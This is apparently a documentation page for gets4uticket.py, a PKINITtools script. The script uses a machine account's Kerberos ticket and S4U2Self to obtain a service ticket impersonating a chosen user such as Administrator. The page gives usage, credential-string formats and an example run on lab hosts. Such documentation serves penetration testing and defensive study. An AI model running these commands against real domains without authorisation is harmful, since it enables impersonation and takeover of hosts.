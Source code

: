 ```yaml
---
title : "gets4uticket.py"
# pre : ' '
description : "Gets an S4U2self ticket impersonating given user."
date : 2023-12-03T06:11:51+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## gets4uticket.py - Gets an S4U2self ticket impersonating given user

Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate. This ticket can then be used to interact with the original host. This only requires a TGT for the machine account of this host. This TGT should be in a ccache file that you specify in the `kerberos_connection_url`. The only accepted `kerberos_connection_url` for this example is one containing a ccache file, so for example `kerberos+ccache://domain.local\\victimhostname\$:victimhostname.ccache@kdchostname.domain.local`. The SPN should be a service name on the host you are impersonating, you can't use this for delegation attacks (since it does not implement S4U2Proxy, there are plenty of tools already for that).

## Installation

Install [PKINITtools]({{< ref "../" >}})

## Usage

```plain
gets4uticket.py [-h] [-v] kerberos_connection_url spn targetuser ccache
```

## Flags

```plain
positional arguments:
  kerberos_connection_url
                        the kerberos target string in the following format kerberos+ccache://domain\user:file.ccache@<domaincontroller-ip>
  spn                   the service principal in format <service>/<server-hostname>@<domain> Example: cifs/fileserver.test.corp@TEST.corp for a TGS ticket to be used for file access on server "fileserver". IMPORTANT:
                        SERVER'S HOSTNAME MUST BE USED, NOT IP!!!
  targetuser
  ccache                ccache file to store the TGT ticket in

options:
  -h, --help            show this help message and exit
  -v, --verbose

==== Extra Help ====
   kerberos connection url secret types: 
   - Plaintext: "pw" or "pass" or "password"
   - NT hash: "nt"
   - RC4 key: "rc4"
   - AES128/256 key: "aes"
   - CCACHE file: "ccache"
   - SSPI: "sspi"
   
   Example:
   - Plaintext + SOCKS5 proxy:
      kerberos+password://domain\user:SecretPassword@127.0.0.1/proxytype=socks5&proxyhost=127.0.0.1&proxyport=1080
   - Plaintext:
      kerberos+password://domain\user:SecretPassword@127.0.0.1
      kerberos+pw://domain\user:SecretPassword@127.0.0.1
      kerberos+pass://domain\user:SecretPassword@127.0.0.1
   - NT hash:
      kerberos+nt://domain\user:921a7fece11f4d8c72432e41e40d0372@127.0.0.1
   - SSPI:
      TEST/user/sspi:@192.168.1.1
   - RC4 key:
      kerberos+rc4://domain\user:921a7fece11f4d8c72432e41e40d0372@127.0.0.1
   - AES key:
      kerberos+aes://domain\user:921a7fece11f4d8c72432e41e40d0372@127.0.0.1
   - CCACHE file:
      kerberos+ccache://domain\user:creds.ccache@127.0.0.1
   - KEYTAB file:
      kerberos+keytab://domain\user:creds.keytab@127.0.0.1
   - PFX file:
      kerberos+pfx://TEST.corp\Administrator:admin@10.10.10.2/?certdata=test.pfx
   - PFX string (b64):
      kerberos+pfxstr://TEST.corp\Administrator:admin@10.10.10.2/?certdata=BASE64DATA
   - No auth (preauth not req):
      kerberos+none://TEST.corp\asrepuser@10.10.10.2/
```

## Examples

```plain
(PKINITtools) user@localhost:~/PKINITtools$ python gets4uticket.py kerberos+ccache://testsegment.local\\s2019dc\$:s2019dc.ccache@s2016dc.testsegment.local cifs/s2019dc.testsegment.local@testsegment.local Administrator@testsegment.local out.ccache -v
2021-07-28 10:09:13,687 minikerberos INFO     Trying to get SPN with Administrator@testsegment.local for cifs/s2019dc.testsegment.local@testsegment.local
2021-07-28 10:09:13,695 minikerberos INFO     Success!
2021-07-28 10:09:13,696 minikerberos INFO     Done!
```
